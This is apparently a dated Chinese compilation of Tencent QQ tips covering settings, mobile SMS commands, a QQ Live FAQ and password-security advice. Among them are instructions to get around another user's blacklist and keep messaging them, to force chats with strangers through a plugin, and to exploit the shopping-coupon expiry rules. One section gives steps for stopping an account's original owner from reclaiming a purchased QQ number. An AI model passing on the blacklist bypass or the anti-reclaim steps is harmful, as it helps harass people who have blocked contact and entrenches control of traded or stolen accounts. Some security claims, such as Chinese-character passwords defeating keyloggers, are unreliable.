

## 隐藏好友可见“状态”

由于一些原因，自己在QQ上的“状态”不想让别人知道，比如：在哪个房间玩什么QQ游戏、在看QQ直播或登录聊天室等。想隐藏这些状态可以在“个人设置”中的“身份验证和状态”中进行调整（图1）。做好设置后要重新登录QQ才能生效。



## 1.14 鼠标快速改变QQ聊天窗口的字体

有的朋友看惯了大字体，自己发送的信息可以选择字的大小，别人发来的信息字太小的话看着是很费眼球的。现在就教你一招如何用鼠标改变聊天窗口的字体大小。先将光标定位在聊天窗口中，再按住Ctrl键，用鼠标滚轮调整字的大小。聊天窗口中的字体会随着滚轮进行缩放；同样，别人发来的信息也会随着改变大小。即使对方用最小的字体，我们看到的也是调整后的大小。图1是改变前，图2为改变后。



## 1.15 为QQ头像添加背景

将鼠标悬停于自己或QQ好友的头像上，就会浮现一个显示好友昵称、QQ号码、QQ秀等信息的小面板（QQ好友个人头像Tip）。细心的你可能会发现有的QQ好友的头像小面板背景是带图案或是彩色的，这个背景是怎么来的呢？





研究表明，这个背景与好友的Q-zone空间背景是一样的，所以，只要我们在自己的Q-zone中设置了背景，即能拥有带色彩或带图案背景的浮动小面板了。

点击QQ主界面上的“菜单”按钮，在弹出的“菜单”窗口中点击“Q-zone”选项，进入Q-zone，单击“装扮空间”链接，再点击搜索栏下拉菜单，将价格选项设定为“0.5Q币以下”，然后点击“查找”按钮，就可以找到一些免费的背景和装饰物（图1）。

提示：设置完毕后，并不能即时在小面板上显示彩色背景，等待一段时间就可以看到了（图2为没有背景，图3为添加背景后）。


### 无昵称的实现方法

你如果想做一个没有姓名的人，就打开“个人设置”，在“个人资料”中删除用户昵称，注意先不要按“确定”或“应用”，然后更换一个头像（图1），最后关掉设置面板。设置完成，查看一下QQ资料，如图2所示，昵称消失了。


### 我的通讯录你别瞅

朋友们在使用QQ通讯录过程中，里面保存了许多重要信息，又不想让别人看到，怎么办呢？其实通讯录也是可以设置密码的。打开QQ通讯录，点击工具按钮，选择“密码设置”（图1）。在“通讯录密码设置”对话框中设置密码（图2）。重新登录后，进入通讯录，软件提示输入通讯录密码（图3）。我们设置的这个密码不是保存在本地，而是保存在腾讯服务器上，所以在别的地方登录通讯录也是要输入密码的。因此，即使这个号码被盗，别人也无法直接打开这个通讯录。而我们则可以通过腾讯客服的密码找回服务轻松重设通讯录密码，最大限度地保证个人数据的安全。


## 无视黑名单


你上过别人的QQ黑名单没有？是否因为她把你拖入黑名单就“阴阳两隔”？现在就告诉你一个方法，让我们能无视黑名单继续给她发送消息。

我先找一个号把我加入黑名单，如图1。我现在再发消息那个号都收不到了。打开“消息管理器”，从“系统消息”中找到当初那个号加我的验证消息，如图2，点击确定。这时发现对方的好友名单中又出现了我，这样就能再续前缘了。即便他再从好友名单中将你删除，或是把你加入到“黑名单”里，这都没有关系，我们都可以通过这个方法重新回到他的好友名单中。


## 选择最快的服务器登录你的QQ

有时我们登录QQ的速度非常慢，收发信息经常出现超时。出现这些原因除了和我们自己的网络状况有很大关系，跟我们选择登录的服务器也有很大关系。既然自身的网速无法改变，何不选择一个你连接速度最快的服务器登录。


普通用户登录QQ分为：TCP和UDP两种方式。TCP方式登录有4个服务器以供选择，UDP方式登录有7个服务器以供选择。我是怎么知道的？打开QQ登录程序，点击“高级设置”，选择“选择登录QQ服务器”，在这里可以选择登录的方式和指定服务器（图1、2）。

分别通过PING命令，测试这里发现的11个服务器哪个是最快，然后选择登录那个服务器。手动一个个PING太麻烦，建一个批处理自动完成，代码如下：

```bash
ping 61.144.238.145>b.txt
ping sz2.tencent.com>>b.txt
ping sz3.tencent.com>>b.txt
ping sz4.tencent.com>>b.txt
ping sz5.tencent.com>>b.txt
ping sz6.tencent.com>>b.txt
ping sz7.tencent.com>>b.txt
ping 218.17.209.23>>b.txt
ping tcpconn2.tencent.com>>b.txt
ping tcpconn3.tencent.com>>b.txt
ping tcpconn4.tencent.com>>b.txt
```

把上述代码保存为a.bat文件，然后执行（图3）。


它会在同目录下生成一个b.txt文件，里面是命令的回显。我们查看PING完每个服务器的“Average =”后的数值，这个值越小代表你和那个服务器的连接速度越快，我要在这中间选择数值最小的登录。


我测试结果就是sz3.tencent.com为连接最快的服务器（图4），然后在设置中选择这个服务器登录，速度果然比原来变快了。

不用每次登录前都PING服务器，当你发觉QQ变慢了再去筛选最快的服务器。

## 1.20 一次发送多个文件

QQ发送文件时向来是一个一个发，很是麻烦。这种情况都发生在聊天窗口的状态下，使得我们认为QQ无法一次发送多个文件。其实不然，只要选择好要传送的多个文件，将它们直接拖到接收好友的头像处，QQ就会自动打开聊天对话窗口，逐个传送文件（图1、2）。


## 1.21 延长QQ秀购物券的有效时间


临近月底，手上有大量QQ秀购物券的朋友着急了吧？按照腾讯的规定，QQ秀购物券有效期只有一个月，过期里面的金额就会全部作废。那么可不可以延长购物券的使用时间？答案当然是肯定的！

月底的时候，登录Http://qqshow.qq.com，点击“照相馆”标签，在出现的文本框处，输入另外一个自己的QQ号码（图1），然后单击“发出合影”按钮，在显示的合影物件中，按照自己的购物券额度，随意购买里面的物品，一次最多能花销13.5 Q币（图2）。如果自己账号的额度过大，重复几次最大购买开销，直到用完购物券里的Q币。

到下个月初（1号或2号），用收到合影要求的号码，登录Http://qqshow.qq.com，然后查看左下角等待合影的请求，将里面的请求信息全部拒绝。此时，购买合影物品的购物券，就会一分不少地回到支付开销的QQ中去（图3）。这样QQ购物券的有效时间就延长了。

### 用手机玩转QQ

用手机玩QQ分为两种：3GQQ和移动QQ。3GQQ需要手机能上网，登录3GQQ的网站上QQ，使用和电脑上区别不大，能实现基本的聊天功能，但好像还不支持群。除了使用方便外最大的好处是能看到隐身的好友，3GQQ显示的好友列表把隐身的好友也显示成在线状态。移动QQ不需要手机上网，只要能发短信就可以，本文也主要地说移动QQ的技巧。

#### 绑定篇

### 快速申请QQ号

发送HM到1700，申请速度非常快哦，不过每3个月只能申请一次！注意哦！

### 申请绑定

只需通过手机编辑短信，输入`BD#您的QQ号码#你的QQ密码`，发送到1700（移动用户）3777（联通用户）。

### 替换绑定

发送你新的QQ号、密码到170015，就能替换掉你原来绑定的QQ号，然后你就可以用这个新QQ号聊天了。

#### 聊天篇

- **如何查在线好友**：菜单查询（在主菜单“发Q到1700”里回复“1”即可）；指令查询（直接发`MQ`到1700）。
- **如何查看某个好友是否在线**：发送`MQ, 好友QQ号`（例：`mq,88888`）到1700；不记得QQ号可发昵称（例：`mq, 白雪`）查看是否在线。
- **怎样通过手机加好友**：发送`HY, 对方QQ号`到1700即可把他添加到你的好友列表。
- **如何与好友聊天**：收到在线好友列表后，回复好友名前编号及内容（例：`108, 我爱你`）即可。
- **如何最快捷地给好友发消息**：将好友QQ号或3位编号前加`170001`（例：`170001100`）保存到手机电话本，下次可快速发送。

### 有人总是发信息骚扰你，怎么对付他？

指令：`JH`（加黑），`JC`（解除）。收到讨厌信息后直接回复`JH`，对方就不能再骚扰。若对方改邪归正，发送`JC`到1700即可解封。

### 你想让好友看到的文字变成绚丽动感的彩字吗

给好友回信息时，在信息最前面加上`kc`（例：`kc 你好`）。

### 如何获取好友留言

想读取离线消息，随时发送`YD`到1700即可。

### 娱乐篇

移动QQ除了聊天之外，还有众多免费娱乐功能。发送`Y`到1700会看到娱乐菜单，目前有以下功能：

- **笑话**：最新流行爆笑笑话，每天更新。
- **下载铃声**：每月更新一次，最新流行铃声可免费下载。
- **有趣的魔幻占卜**：生日占卜、每日运势、情感探秘、智力测验等。
- **天气**：发`TQ`到1700看本地天气；看其他地方天气可发送区号（例：`0755`）到17002544。

#### 问题篇

**如果没有QQ号码，可以使用“移动QQ”服务吗？**  
答：可以，但是只可以使用有限功能，比如娱乐资讯，不能使用查询QQ离线消息、查询在线好友等功能。

**好友编号是什么？有什么用途？**  
答：因为QQ号太长太难记，所以移动QQ用自动生成的3位数字编码代替QQ号。可以在在线用户列表中看到，而且这个编号是永久的，只要记得好友的编号，就可以直接发信息到170001+编号（例：对方编号是101，就发送到170001101），对方的QQ就能收到，非常快捷方便。

### 为什么会自动绑定QQ号？

答：当开通移动QQ后，如果未绑定或发送HM指令领取QQ号，或者8分钟没有任何操作，移动QQ都会当作没有QQ号的用户，进行自动绑定刚申请的QQ号或者自动申请QQ号，然后自动绑定。

如果你确实没有QQ号，那就利用这个自动绑定的QQ号玩吧。

如果自动绑定以后你想绑定自己的QQ号码，那么发送QQ号、密码（例：123456，abc123）到170015，就可以更改绑定。

### 移动QQ的指令系统有什么规则？

- A. 移动QQ的绝大部分指令都是有含义的，一般都是由两个字母组成，如YD是“阅度”的拼音首字母。详情请查看指令列表。
- B. 一些指令是需要跟QQ号、QQ密码、昵称等参数，指令和参数以及参数和参数之间都使用逗号间隔，否则程序无法识别，如HY指令（加为好友），就需要发送“HY，对方QQ号”。
- C. 除了极少数有特殊说明的指令外，所有指令都是发送到1700。

### 移动QQ用户无法向QQ发送短信的原因有哪些？如何解决？

- A. 当地短信中心出问题，出现这种情况时，用户不能用手机成功发出短信到移动QQ的被叫号，表现为发送短消息失败。请查看短信中心号码设置是否正确，测试是否可以发手机对手机的短信。
- B. 短信网关出现问题，不能将此消息传递到腾讯的平台，此时表现为消息发送成功，但手机没有反应。
- C. 短信网关到腾讯系统平台之间的线路出故障，此时手机会出现“QQ系统繁忙”字眼。
- D. 系统繁忙，暂时处理不过来，表现出来是有时能成功，有时不能成功，通常有可能出现在周末。

解决方法：如果出现A、B、C情况，请立即联系腾讯客服中心，把具体情况告诉腾讯的工作人员。如果出现D情况，是由于网络繁忙造成，请用户稍后再试。

### 如何取消移动QQ服务？

答：您只须发送“0000”指令就可以取消“移动QQ”服务。

### 手机停机，如何取消“移动QQ”服务？

答：在停机前未通过发送指令关闭“移动QQ”服务的用户，请直接拨打腾讯公司客服热线，向工作人员提供已停机的手机号码，工作人员验证核实后会为用户取消“移动QQ”服务。


“QQ直播”是一款新型网络电视直播软件，视频质量高、流畅，节目内容丰富。QQ直播新闻链接。

## 1、电视台没声音怎么办？

问题描述：某个电视台节目看到了图像，但是听不到声音，其他的电视台都可以看到也可以听到，这到底是什么原因呀？

答：首先请检查音频设备是否可用，否则为节目源存在问题，等待技术人员恢复。

## 2、QQ直播无法观看

答：一般不能播放，多是和代理上网、防火墙、播放器版本、网络速度有关系。请检查是否安装了Windows Media Player 9或更高版本，如果没有，请安装。如果问题依然存在，请检查您是否使用了代理上网；如果是，则QQ直播目前暂时还不支持代理上网。

如果不是，请检查是否是防火墙关闭了相关端口。同时请告诉腾讯客服人员您的上网方式，比如是电信还是网通以及具体的上网速度是多少。请告之播放窗口下方的下载百分比及播放百分比。请尽量详细描述您遇到的现象，以方便分析定位问题。

## 3、收看节目途中会死机

问题描述：为什么我一看我的机器配置不低，网速也不慢，但就是看电视老是不定期死机，不知道是怎么回事。

答：建议完全卸载之后，重新安装QQ直播软件。并且Media Player要求9.0以上。

## 4、目录显示问题

问题描述：为了不让QQ直播占据太多的屏幕，通常我会在选好电视台之后就把目录隐藏起来，但问题就这样来了，当要重新显示目录时，往往只能显示右边的节目表，而左边的电视台列表却怎么弄也不出来，后来我就卸载了重新安装，但下次又出现这样的问题，总是重装并非长久之计呀！

答：目前问题已经解决，请下载最新的QQ直播版本。

播放0%，什么都是0，没画面，没声音，可是节目清单有，我试了很多个频道都是这样的情况，不能播放，我把防火墙关掉也是一样的。

答：1. 首先确定Media Player的版本是否为9.0或更高，如果版本低于9.0，需要下载并安装最新的Media Player。2. 程序间通信交互出现了问题（BUG），建议解决方法：重新运行QQLIVE。3. 其他的播放插件导致QQ直播工作不正常，重新安装即可。

## 5、默认窗口设置问题

问题描述：QQ直播窗口变形，把QQ直播设定为默认窗口后，关闭重新打开该窗口又变成三块分散的，请问如何处理？

答：这个请用户下载新版本，重新安装就可以解决了。

## 6、连接服务器失败

问题描述：打开QQ直播，进去时显示服务器连接失败。

答：旧版本存在进程退不出，而连接服务器失败的问题，请下载最新版本的播放器。如果依然出现该情况，请先确定用户网络是否正常，然后参考问题2。

## 7、Media Zone影视区没有节目预告

问题描述：无法知道节目播出的情况，能否增加？

答：该频道处于试验阶段，所以暂时没有节目预告。

## 8、QQ直播聊天出现重复QQ号

问题描述：在看直播的时候，在聊天和用户栏里面出现了重复QQ号码的现象，而且还占了房间的多余位置。

答：建议安装新版本的QQ直播。

## 9、观看QQ直播电脑就会重启

答：建议用户重新安装Windows Media Player 9.0；卸载掉QQ直播后，下载新版本的进行安装。

## 10、关闭防火墙，不用代理依然无法播放

问题描述：我是从电信拉的网线，没使用代理上网，可是使用QQ直播的时候，缓冲0%，下载速度开始是不定的，等一会儿也就是0，然后播放0%，什么都是0，没画面，没声音，可是节目清单有，我试了很多个频道都是这样的情况，不能播放，我把防火墙关掉也是一样的。

## 11、QQ直播播放时比较卡

问题描述：播放时画面一顿一顿，比较卡，像在放PPT。

答：可能同时观看的人不多，或者用户网络情况不理想，请告之其网络速度及播放器界面下方的提示信息，以方便分析问题。

## 12、关于QQ直播的内容

答：关于QQ直播的内容是得到相关电视台书面授权播出的，这也是为什么现在QQ直播的内容少的原因之一，需要得到对方电视台的授权，这需要一个谈的过程，已在QQ直播中的直播内容绝对是不会有版权的问题了！

## 13、QQ直播是否收费

答：QQ直播目前是可以免费使用的。

## 14、出现与聊天服务器连接失败的提示

答：这个问题是测试版本中的问题，请安装新的测试版本。

## 15、列表里某个台消失

答：由于节目源近期进行检修，所以会有部分用户不能正常收看。

## 16、部分电视台无权观看

答：由于版权问题，部分电视台海外用户暂时不能观看，相关节目版权正在商谈中。

## 17、关于QQ直播占用网络资源的问题

答：QQ直播在流量保护方面做了不少的准备，限制了用户的最多连接数和数据的高压缩率，通过程序实现了用户的上传带宽限制。目前暂时没有提供用户通过配置的方式来限制用户上传带宽的功能，这部分功能会在QQ直播的后续几个版本中实现。

## 18、QQ直播的音道怎么选择？

答：目前QQ直播暂时没有提供声道选择，用户可以通过调节计算机中的左右声道来完成声道选择。这部分功能会在QQ直播的后续几个版本内实现。

## 19、关于积分的说明

答：QQ直播积分是根据您使用QQ直播的时间进行累计，每使用QQ直播客户端一分钟时间累计一个积分。目前QQ直播3.0处于测试阶段，积分不一定很稳定，对此请您谅解。目前关于积分具体功能暂时还没推出！

## 就要和陌生人说话

想与没加的“好友”聊天可以借助在通讯录里添加联系人的方式，还可以借助专门的软件。不过现在珊瑚虫外挂已经整合了这个功能，方便了我等菜鸟。

随便打开一个聊天窗口，在左上角点击右键，依次选择“珊瑚虫扩展功能→更多功能”，弹出一个珊瑚虫增强命令的窗口，这里可以使用如来神掌（探测好友是否在线）、强制聊天和发送珊瑚虫指令。你要是想和谁聊天就填入他的QQ号，点击交谈，就会打开与XXX对话的窗口，赶紧喷吧，让别人加你为好友（图1、2、3）。


## 解除QQ手机绑定大全

- 1. 使用QQ2005beta3及之后版本，进入“无线QQ向导”，选择“QQ免费绑定/解绑—手机/小灵通”，填写手机号、QQ号和密码后即可立即解绑。
- 2. 通过开通服务的手机发送短信可取消绑定（如发送QXBD至1700/9777/3777等，不同地区与运营商号码不同）。
- 3. 取消小灵通与QQ号码绑定：发送内容**QXBD**至**1700（电信）**或**17000（网通）**。
- 4. 若手机被盗/丢失无法发短信，可先办理停机，再联系无线QQ页面工作人员协助取消绑定。
- 5. 若QQ号被盗导致被他人手机绑定，可通过申诉页面处理，相关绑定及手机开通增值服务会一并解除。

注：手机可正常使用时，建议直接通过手机短信取消。

## 将QQ邮箱免费升级到1GB


- 1. 启动QQ，点击顶部QQ邮箱图标进入邮箱。
- 2. 在邮箱页面不要点“立即获取1G邮箱”，而是点击左侧下方“发送贺卡，发贺卡升级到3.0”按钮（图1），再点“我要参加”。
- 3. 按要求给至少5位好友发送QQ贺卡（免费，不消耗QQ币）。提示：好友需开通QQ邮箱；给163、新浪等邮箱用户发送同样有效。
- 4. 发送满5个后进入抽奖页面（图2），获得抽奖机会。


在抽奖页面有两个抽奖盒子可选，文中建议选择左侧，称其中奖概率更高。中，右边的好像要差一点，因此请直接选左边的箱子就可以了。

第5步：点击之后会弹出一个“恭喜您！您获得了QQ邮箱3.0升级机会，请返回到收件箱查收升级邮件”提示信息（图3），点击后直接返回到自己的QQ收件箱。这时在收件箱中会出现一封升级邮件，打开后点击“立即升级体验新版QQ Mail”按钮（图4）。

第6步：好了，静等QQ邮箱更新完成即可，此过程大概需2~3分钟。等升级完成后再次进入自己的QQ邮箱看看，邮箱容量是不是从原来的5MB跃升为1024MB了（图5）。


## QQ密保的消除办法

QQ密保的消除办法（包括死保和送保）。很多朋友买来保号（包括死保和送保）以后，都担惊受怕，生怕有一天号码的原来拥有者利用原始密码申诉回去。

消除办法：

- 1. 在得到号码以后，删除上面的所有好友。
- 2. 更改号码的所有资料（包括交友、家园、相册、空间、商务伴侣、个人信息等）。
- 3. 绑定手机（如果没有就算了）。
- 4. 短期内多次修改密码（20次左右为宜）。
- 5. 添加10位以上新的好友（最好利用会员的克隆好友）。
- 6. 短期内利用一个IP经常登录（尽量别是网吧）。
- 7. 尽量多开通服务和购买东西，如：会员、三钻、高级交友、高级网络硬盘、6元卡包月、魔法表情包月、彩信包月、移动QQ、短信超人、QQ秀、QQ闪秀等（如果经济条件不允许就算了）。
- 8. 建群：如果本身就带群就把群转出去，重新建一个。
- 9. 如果送保，短期内多次修改密保信息及信箱。

## QQ密码防盗十大建议

- 1. 去腾讯申请密码保护，这样如果密码被破解或自己忘记了还可以利用密码保护功能取回来。
- 2. QQ的密码位数一定要超过8位，而且最好包含数字+字母+特殊符号，否则以现代计算机的超强计算能力，要想暴力破解你的QQ密码简直是易如反掌。
- 3. 不要在QQ中填入真实的年龄、E-mail等敏感消息，更不能告诉任何人，小心驶得万年船。
- 4. 不要随意运行别人发给你的文件，即便那些看起来很诱人的文件也不要轻易去运行它，往往这样的文件后面都隐藏着不可告人的秘密。
- 5. 在网吧上网临走时一定要删除QQ的聊天记录，最好把以你的QQ号码命名的文件夹整个删除，而且要清空回收站。
- 6. 注意使用最新版本的QQ，针对QQ的攻击工具大都是针对某一版本的，它的更新不会比QQ的版本升级速度更快。
- 7. 隐藏自己的真实IP，通过代理服务器上网，可以减少别人发现自己的机会，进而避免被别人攻击。当然对于黑客高手这招用处不太大，值得庆幸的是高手并不是很多。
- 8. 事先准备两个常用的密码，登录QQ时使用一个，在使用完毕后右键点击屏幕右下角的QQ图标，选择“个人设定”→“网络安全”→“修改口令”，在“新口令”栏中输入另外一个事先准备好的密码，然后点击“确定”保存修改结果，这样可以防大多数的QQ木马，因为QQ木马大都只记录你登录时输入的密码，对下线前修改的密码却疏于记录。

但是新版QQ不允许使用粘贴的方式输入密码，建议使用TM登录。

- 9. 用汉字做QQ密码使键盘记录机失效。由于绝大部分键盘记录机都只是对键盘输入进行记录，而不能对剪贴板中的密码做记录，所以，如果采用复制的方式拷贝事先准备好的汉字作为QQ密码，则几乎没有被键盘记录机盗取QQ密码的可能，也就没有后顾之忧了。


## 如何防止QQ、Q币和游戏币被盗


- 1. 你的密码过于简单，号码千万不要当作自己的主号，并在网吧等公共场合使用过QQ，这样的话使用一些猜解软件能轻易地尝试猜解出来。您登记在QQ里的Email账户被黑，这种情况有些类似于第一种情况，所谓的“黑客”们就是用一些现成的软件去猜解穷举你的Email账户密码，然后再将QQ号码的密码发到该信箱中。QQ游戏项目的积分、游戏币、QB，是盗密者的目标，其中以游戏币为主，所以玩家要慎重保护好自己的游戏币，一定要设定自己的账户密码。每次玩完游戏，记得把钱存放到账户里。同时为了账户的安全性，建议您登录 http://pay.qq.com/ 设置账户消费限额（最小值为1），以防万一密码再次外泄，可将损失降至最低。对于QB比较多的玩家，要设置日消费额在一定的数额之内，这样的话，即使密码被盗，别人也只能在一天内花费你定量的QB。
- 2. QQ游戏帐号与QQ号码对号入座，所以要保护好自己的QQ密码安全，要申请QQ密码保护。切忌：如果QQ号码的密码保护忘记了，或者不在自己手里，为长远利益打算，这样的QQ……
- 3. 如果是在家里上网，就要保护好自己的电脑，安装杀毒软件。必须开启防火墙和杀毒监控中心，随时监控着自己的计算机。杀毒软件要及时升级更新，同时自己使用的QQ版本也应及时更新。
- 4. 您使用的计算机中了“木马”，它的危害性在于它可以截获你所有的键盘输入，并将其保存结果定时发到指定地址的计算机，或者定时发邮件到某个邮件地址。请你千万不要下载来路不明的软件，尤其是黑客类、炸弹类软件，这些软件有可能利用您的好奇心理在里面埋伏了木马，当您在炸别人、黑别人的时候，殊不知已经为自己埋下了祸根。
- 5. 不要随意接收别人的图片和文件，也不要胡乱打开别人发的网址。比较热门的两种文件格式：“.exe”为执行文件，有可能是木马；“.scr”是屏幕保护程序，可以在其中加载木马，把普通的图片和木马合成在一起。如果别人发送你照片或者图片，最好使用截图屏幕的发送方式；如果情况特殊，图片的格式应该为bmp、jpg、gif等常用图片格式，才可以接收打开。如果不敢确定是否为图片还是木马，可以使用如下一个方法：把接收的文件放到一个文件夹中，然后用右键单击文件（选中而非打开），这时查看文件夹左边的详细信息，如果是图片的话就会直接显示出图片的缩略图形。如果显示的是其他信息，就不要打开了。
- 6. 不要过分信任杀毒软件而产生错觉。并不是所有的木马都可以被杀毒软件查杀出来，因为有些软件刚刚推出，或者有注册版本，使用的人很少，这种病种很难被杀毒软件公司发现，病毒库即使更新了，也很可能没加入这个病种。像这样的木马病毒，杀毒软件是杀不出来的。所以杀毒软件只能作为自己查杀木马的一个辅助工具，而不要一味地过分依赖于它。
- 7. 输入密码的两个小技巧：  
  （1）有的密码截取软件只能截取9位数字，所以在你输入QQ号码的时候记得在QQ号码前多加些0，这样不妨碍自己登录QQ，也会减少丢失QQ的可能性。  
